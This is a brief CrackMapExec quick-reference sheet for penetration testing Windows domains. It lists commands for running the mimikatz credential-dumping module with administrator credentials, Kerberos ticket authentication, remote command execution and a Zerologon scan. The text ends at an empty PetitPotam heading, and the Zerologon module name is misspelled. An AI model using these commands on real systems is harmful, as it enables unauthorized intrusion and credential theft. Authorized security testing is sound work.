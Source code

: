 # CME Quick Reference

## Modules

```
cme smb -L
```

#### Using Modules

```
cme smb <target(s)> -u Administrator -p 'P@ssw0rd' -M mimikatz
```

#### Viewing Module Options

```
cme smb -M mimikatz --options
```

#### Using Module Options

```
cme <protocol> <target(s)> -u Administrator -p 'P@ssw0rd' -M mimikatz -o COMMAND='privilege::debug'
```

## Kerberos

```
cme smb zoro.gold.local -k -u bonclay -p Ocotober2022
```

#### using `--use-kcache`

```
export KRB5CCNAME=/home/bonclay/impacket/administrator.ccache 
cme smb zoro.gold.local --use-kcache
```

```
cme smb zoro.gold.local --use-kcache -x whoami
```

```
cme ldap poudlard.wizard -k --kdcHost dc01.poudlard.wizard
```

## Scan for Vulnerabilities

#### Zerologon

```
cme smb <ip> -u '' -p '' -M zerologo
```

#### PetitPotam
